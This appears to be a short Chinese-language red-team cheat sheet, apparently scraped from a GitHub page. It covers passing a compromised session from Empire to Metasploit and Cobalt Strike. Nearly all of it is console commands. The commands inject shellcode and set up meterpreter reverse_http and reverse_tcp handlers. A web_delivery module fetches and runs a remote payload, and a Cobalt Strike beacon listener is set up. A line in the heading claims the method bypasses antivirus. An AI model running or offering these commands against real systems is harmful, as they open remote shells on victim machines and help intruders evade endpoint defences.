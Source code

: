  ##### 派生MSF
	可绕过杀软
	Empire
	>usemodule code_execution/invoke_shellcode
	>set Lhost 192.168.0.1
	>set Lport 4444
	>set Payload reverse_http
	MSF
	>use exploit/multi/handler
	>set payloadwindows/meterpreter/reverse_http
	>set Lhost 192.168.31.247
	>set lport 4444
	>run
	或Empire
	>usemodule code_execution/invoke_metasploitpayload
	>set URL http://SRVHOST:SRVPORT
	MSF
	>use exploit/multi/script/web_delivery
	>set payload windows/x64/meterpreter/reverse_tcp
	设置SRVHOST SRVPORT
 ##### 派生Cobalt Strike
	创建监听器/windows/beacon_http/reverse_http 设置端口和主机
	Empire
	>usemodule code_execution/invoke_shellcode
	>set Lhost 192.168.0.1
	>set Lport 4444
	>set Payload reverse_http